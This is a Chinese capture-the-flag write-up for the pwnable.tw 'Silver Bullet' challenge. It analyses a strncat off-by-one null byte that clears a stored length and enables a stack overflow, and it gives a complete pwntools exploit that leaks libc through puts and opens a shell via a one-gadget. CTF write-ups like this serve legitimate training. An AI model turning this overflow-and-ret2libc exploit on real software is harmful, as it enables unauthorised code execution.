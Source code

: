 ## 检查

```c
$ file silver_bullet 
silver_bullet: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=8c95d92edf8bf47b6c9c450e882b7142bf656a92, not stripped
$ checksec silver_bullet 
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 分析

运行程序是一个游戏，用ida查看可得，获取胜利与get shell并没有什么关系

所以我们还是需要寻找可利用的漏洞

在power_up函数中

```c
int __cdecl power_up(char *dest)
{
  char s; // [esp+0h] [ebp-34h]
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&s, 0, 0x30u);
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *((_DWORD *)dest + 12) > 0x2Fu )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&s, 48 - *((_DWORD *)dest + 12));  // 新读取字符，要求总长度不大于0x30
  strncat(dest, &s, 48 - *((_DWORD *)dest + 12));// 使用strncat在字符串的结尾追加n个字符
  v3 = strlen(&s) + *((_DWORD *)dest + 12);
  printf("Your new power is : %u\n", v3);
  *((_DWORD *)dest + 12) = v3;
  return puts("Enjoy it !");
}
```

strncat并不是单纯的追加n个字符，还会额外添加一个\x00，而我们可以看到。当我们正好写入48个字符时，额外添加的\x00正好是存放字符串长度的地方*((_DWORD *)dest + 12)

所以此时原字符串长度被清零，故此时*((_DWORD *)dest + 12) = 0 + 我们再次添加的长度

于是我们又可以接着往后追加48 - *((_DWORD *)dest + 12)个字符，实现栈溢出

## 利用

所以我们需要做的是首先栈溢出利用puts函数泄漏出libc地址，然后再次调用main函数执行system()实现get shell

需要注意的是：只有beat()成功时才会返回main，否则直接选4 return会以exit(0)方式退出，故而覆盖*dest+12处的数时，需要让他满足win的条件

## exp

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')

debug = 0
if debug:
	elf = ELF("./silver_bullet")
	libc = ELF("./libc-2.23.so")
	io = process("silver_bullet")
else:
	elf = ELF("./silver_bullet")
	libc = ELF("./libc_32.so.6")
	io = remote("chall.pwnable.tw",10103)
	
gadget_addr = 0x3a819
puts_addr = 0x080484a8
read_got = elf.got['read']
main_addr = 0x08048954

def create(s):
	io.recvuntil("choice :")
	io.sendline("1")
	io.recvuntil("bullet :")
	io.sendline(s)
def power(s):
	io.recvuntil("choice :")
	io.sendline("2")
	io.recvuntil("bullet :")
	io.sendline(s)
def beat():
	io.recvuntil("choice :")
	io.sendline("3")

create('a'*47)
power('a')
payload = '\xff'*7+p32(puts_addr)+p32(main_addr)+p32(read_got)
power(payload)
beat()
io.recvuntil("You win !!\n")
read_addr = u32(io.recv(4))
shell_addr=read_addr-libc.symbols["read"] + gadget_addr
create('a'*47)
power('a')
payload2='\xff'*7 + p32(shell_addr)
power(payload2)
beat()

io.interactive()
```



参考：

- [pwnable.tw_Silver Bullet](https://kirin-say.top/2018/06/06/pwnable-tw-Silver-Bullet/)
- [Pwnable.tw刷题之Silverbullet破解过程分享](https://cloud.tencent.com/developer/article/1070137)

